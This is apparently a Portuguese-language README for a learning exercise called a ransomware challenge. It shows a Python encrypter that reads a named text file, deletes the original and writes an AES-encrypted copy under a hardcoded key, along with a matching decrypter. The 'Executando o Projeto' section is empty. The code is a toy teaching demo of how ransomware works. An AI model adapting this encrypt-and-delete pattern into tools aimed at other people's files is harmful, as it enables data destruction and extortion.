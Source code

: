 # Desafio de Ransomware com Python

## Ferramentas Utilizadas
- **Python 3**
- **Biblioteca pyaes** (para AES simétrico)
- **Kali Linux** (ou qualquer distribuição Linux)

## Instalação
Antes de executar o código, instale a biblioteca necessária:
```bash
pip3 install pyaes
```

## Encriptando o Arquivo
### Código `encrypter.py`
```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "Desafio.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomware"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

## Decriptando o Arquivo
### Código `decrypter.py`
```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "Desafio.txt.ransomware"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "Desafio.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

## Executando o Projeto


```

---

